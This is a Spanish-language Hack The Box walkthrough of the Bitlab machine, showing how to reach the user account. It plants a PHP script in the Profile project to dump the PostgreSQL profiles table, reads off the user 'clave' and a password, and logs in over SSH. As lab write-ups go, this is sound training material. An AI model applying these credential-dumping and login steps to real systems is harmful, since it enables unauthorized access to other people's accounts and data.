 Voy a cubrir el punto uno, pero solamente como hacerse con el usuario, y en el futuro si tengo idea de ingenieria inversa, voy a postear la parte que falta)

## Usuario

En la página de inicio del proyecto Profile, hay un hint, se menciona una conexión a postgresql y snippets, nos vamos a la página de snippets y encontramos esto:

{{< image src="/images/htb/bitlab/1-intended_user.png" position="center" style="border-radius: 8px;" >}}

Lo abrimos y vemos que es un script para conectarse a la base de datos y hacer un dump de los perfiles:

```js
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
```

Entonces, desde adentro del proyecto Profile agregamos un archivo con ese código, pero también creamos un array con ```pg_fetch_all($result)``` para guardarnos todos los perfiles que se les hace un dump, con eso tenemos este resultado:

```js
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
$arr = pg_fetch_all($result);
print_r($arr);
```

Y despué de guardarlos y hacerle merge, nos vamos a ```http://10.10.10.114/profile/<el nombre que le diste al script>```, y deberíamos tener como resultado el array en pantalla con el usuario ```clave``` y una contraseñá:

```js
Array ( [0] => Array ( [id] => 1 [username] => clave [password] => c3NoLXN0cjBuZy1wQHNz== ) )
```

Antes de intentar romperla por fuerza bruta, probamos usarla así como está, y éxito! La contraseña era esa, no estaba encriptada!

```console
root@kali:~/Documents/HTB/boxes/medium/linux/bitlab# ssh 10.10.10.114 -l clave
clave@10.10.10.114's password: 
Last login: Fri Jan 10 19:45:16 2020 from 10.10.14.7
clave@bitlab:~$ id
uid=1000(clave) gid=1000(clave) groups=1000(clave)
clave@bitlab:~$ ls -la
total 44
drwxr-xr-x 4 clave clave  4096 Aug  8 14:40 .
drwxr-xr-x 3 root  root   4096 Feb 28  2019 ..
lrwxrwxrwx 1 root  root      9 Feb 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 clave clave  3771 Feb 28  2019 .bashrc
drwx------ 2 clave clave  4096 Aug  8 14:40 .cache
drwx------ 3 clave clave  4096 Aug  8 14:40 .gnupg
-rw-r--r-- 1 clave clave   807 Feb 28  2019 .profile
-r-------- 1 clave clave 13824 Jul 30 19:58 RemoteConnection.exe
-r-------- 1 clave clave    33 Feb 28  2019 user.txt
clave@bitlab:~$ wc -c user.txt 
33 user.txt
```
